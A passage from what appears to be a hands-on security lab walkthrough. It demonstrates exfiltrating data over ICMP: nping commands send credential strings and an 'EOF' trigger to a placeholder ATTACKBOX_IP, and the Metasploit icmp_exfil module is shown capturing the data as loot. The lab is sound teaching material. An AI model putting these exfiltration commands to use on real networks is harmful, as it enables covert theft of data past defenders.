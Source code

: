 Let's start sending the required data and the end of the file trigger value from the ICMP machine.

Sending the Data and the End of the File Trigger Value

```markup
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
```

Let's check our AttackBox once we have done sending the data and the ending trigger value.

Receiving Data in MSF

```markup
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
```
